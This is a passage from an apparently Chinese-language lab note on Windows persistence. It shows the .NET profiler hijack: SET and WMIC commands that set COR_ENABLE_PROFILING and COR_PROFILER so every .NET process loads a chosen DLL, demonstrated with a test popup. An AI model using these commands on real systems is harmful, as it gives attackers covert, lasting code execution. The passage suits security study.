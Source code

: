 ![1574865134277](Persistence.assets/1574865134277.png)

然后输入命令（SET设置环境变量，但是只作用于当前cmd.exe）：

```
SET COR_ENABLE_PROFILING=1
SET COR_PROFILER={11111111-1111-1111-1111-111111111111}
```

细节可参考

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/set_1

https://www.robvanderwoude.com/ntset.php

![1574865186423](Persistence.assets/1574865186423.png)

再执行能够调用.NET的命令即可触发DLL实现弹窗（因为实验DLL为32位，所以在64位系统上执行此操作会失败）。

![1574865200576](Persistence.assets/1574865200576.png)

如果想要不用每次都执行SET设置当前cmd的环境变量，可以使用WMIC更改环境变量，但是需要重启或者注销之后重新登录。

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"
wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```
